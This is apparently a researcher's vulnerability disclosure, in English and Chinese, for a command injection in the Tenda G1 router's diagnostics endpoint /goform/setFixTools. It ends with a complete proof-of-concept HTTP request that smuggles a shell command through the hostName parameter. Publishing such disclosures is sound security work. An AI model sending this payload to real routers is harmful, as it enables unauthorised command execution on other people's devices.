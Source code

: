 # Tenda G1_Command_injection

Vender ：Tenda

Firmware version:US_G1V1.0br_V15.11.0.16(9024)_CN_TDC.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com) && doudou.zhu@dbappsecurity.com.cn

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-3040.html



#### Describe

 Some problems exist on the Tenda G1 router. In the diagnostics  /goform/setFixTools/ configuration interface, the command injection exists for the post parameter hostName

一些问题存在Tenda G1路由器上，在配置界面Diagnostics下/goform/setFixTools/，其post参数hostName存在命令注入

#### Detail

In IDA  the formsetnetchecktools function is called as follows( the file is httpd )

在IDA中formSetNetCheckTools函数有如下调用

<img src="./img/image-20210919131609946.png" alt="image-20210919131609946" style="zoom:50%;" />

follow-up cmd_get_ping_out_put ruction

跟进cmd_get_ping_out_put

<img src="./img/image-20210919131745039.png" alt="image-20210919131745039" style="zoom:50%;" />



#### TEST



<img src="./img/image-20210919131508474.png" alt="image-20210919131508474" style="zoom:50%;" />

<img src="./img/image-20210919131354946.png" alt="image-20210919131354946" style="zoom:50%;" />



<img src="./img/image-20210919131450157.png" alt="image-20210919131450157" style="zoom:50%;" />



#### POC

```
POST /goform/setFixTools HTTP/1.1

Host: 192.168.10.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0

Accept: text/plain, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 71

Origin: http://192.168.10.1

Connection: close

Referer: http://192.168.10.1/sysManage/sysTool.html?0.8581860712391024

Cookie: _:USERNAME:_=; G3v3_user=

networkTool=1&hostName=aaa;sh;192.168.10.1&packageNum=4&packageSize=100
```

